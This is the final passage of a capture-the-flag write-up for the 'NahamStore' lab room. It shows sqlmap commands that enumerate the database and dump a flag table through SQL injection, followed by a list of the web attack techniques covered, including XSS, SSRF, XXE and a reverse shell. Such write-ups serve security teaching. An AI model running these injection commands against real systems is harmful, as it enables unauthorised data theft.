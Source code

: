 - Enumerate database name:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# sqlmap -r req.txt --dbms=mysql --batch --threads 10 --current-db
[...]
[05:52:27] [INFO] retrieved: nahamstore             
current database: 'nahamstore'
```

**Found database name: `nahamstore`**

- Retrieve the flag:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# sqlmap -r req.txt --dbms=mysql --batch --threads 10 -D nahamstore -T sqli_two -C flag --dump
[...]
Database: nahamstore
Table: sqli_two
[1 entry]
+------------------------------------+
| flag                               |
+------------------------------------+
| {Redacted}                         |
+------------------------------------+
```

We finally completed this room!!

# Conclusion

What we've learned:

1. Subdomain Enumeration
2. Directory Enumeration
3. Content Discovery
4. Fuzzing GET & POST parameter
5. XSS (Cross-Site Scripting)
6. XSS Bypasses
7. Stored XSS, Reflected XSS
8. Open Redirect
9. CSRF (Cross-Site Request Forgery)
10. CSRF Protection Bypasses
11. IDOR (Insecure Direct Object Reference)
12. LFI (Local File Inclusion)
13. LFI Bypasses
14. SSRF (Server-Side Request Forgery)
15. SSRF Bypasses
16. XXE (XML External Entity Injection)
17. Blind XXE via XLSX File
18. RCE (Remote Code Execution)
19. Password Guessing
20. Editing a Page to Get PHP Reverse Shell
21. Command Injection
22. Error-Based SQL Injection
23. Blind-Based SQL Injection